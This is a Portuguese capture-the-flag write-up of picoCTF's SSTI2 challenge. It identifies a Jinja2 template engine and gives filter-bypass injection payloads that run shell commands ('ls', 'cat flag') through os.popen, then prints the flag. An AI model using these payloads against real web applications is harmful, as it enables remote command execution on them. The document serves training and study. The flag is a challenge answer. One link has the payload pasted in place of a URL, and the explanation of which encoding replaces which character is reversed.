 # SSTI2
###### Solved by @joaoselim
> This CTF is about web, SSTI

## About the challenge
A questão [SSTI2]({{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
) possui o enunciado `I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)` junto de um link gerado para o site.

Explica que tem um site onde é possível anunciar qualquer coisa, mas que diferente do desfaio [SSTI1](https://play.picoctf.org/practice/challenge/492?page=1&search=SSTI) agora tem um filtro que bloqueia certas entradas.

## Solution
Ao abrir o site encontra-se uma página simples com texto e um espaço para inserir informação.

[![tela-inicial.png](https://i.postimg.cc/nrSb2tJ9/tela-inicial.png)](https://postimg.cc/jnfFqmCR)

O nome da questão é uma informação de que o desafio é baseado em [SSTI(Server Side Template Injection)](https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection),
que se trata de injeção de código nos templates.

O primeiro passo é identificar qual o tipo de template que estamos lidando; para determinar isso existem textes, como exemplificado na árvore de decisões.

[![template-decision-tree.png](https://i.postimg.cc/66bpzkzh/template-decision-tree.png)](https://postimg.cc/yW9K8rMJ)

O primeiro payload a verificar é `${7*7}`. Inserindo tem como saída:

[![input1.png](https://i.postimg.cc/xC01FYW6/input1.png)](https://postimg.cc/NyztKhGX)

Não funcionou, para ter sucesso, o programa simplesmente leu como um texto comum, e não executou o programa.

Seguindo a tabela, o próximo payload a ser inserido é `{{7*7}}`. Inserindo se tem como saída.

[![input2.png](https://i.postimg.cc/J0YgCcts/input2.png)](https://postimg.cc/QK5Sp7QD)

Dessa vez o programa foi executado, foi interpretado que deveria realizar a multiplicação de `7 * 7` retornando `49`.

O próximo payload teste a ser inserido é `{{7*'7'}}`. Inserindo se tem como saída.

[![input3.png](https://i.postimg.cc/rmqd45jZ/input3.png)](https://postimg.cc/t1mCQZLF)

Com isso é possível se constatar que se trata de [Jinja2](https://www.treinaweb.com.br/blog/o-que-e-o-jinja2).

A partir desse ponto se consiste em entender como funciona a filtragem e elaborar de um payload que seja aceito pelo site.
Verificando o código fonte do site e analisando, entende-se que não tem como ter acesso direto ao filtro. Portanto a maneira de seguir é inserindo payloads e observar oque é aceito ou não.

Inserindo payloads como:
```
{{ self._init.globals.builtins.import_('os').popen('id').read() }}
```
```
{{config._class.init.globals_['os'].popen('ls').read()}}
```
É observável que algumas das strings filtradas incluem `.`, `'os'`, `[]` e a remoção do caracter `_`.

[![inputfalho.png](https://i.postimg.cc/XJJTJ7mG/inputfalho.png)](https://postimg.cc/WDB9Yj2T)

Para driblar o filtro, codificamos os caracteres necessários para o código. Substituindo `.` por `\x5f` e `_` por `|attr`, se resulta no payload:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
Inserindo ele, retorna a informação de arquivos localizados na pasta atual

[![inputls.png](https://i.postimg.cc/3RkYqBKc/inputls.png)](https://postimg.cc/47RD7pH6)

Com essa saída constatou-se a existência de um arquivo `flag`.

Agora precisa se acessar o conteúdo do arquivo, através do comando `cat` e indicando o arquivo em questão, se gera o payload:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
Inserindo, obtem-se a saída:

[![inputflag.png](https://i.postimg.cc/PqhC00cF/inputflag.png)](https://postimg.cc/SnTQM1mW)

Assim chegando na flag:
>'picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}'
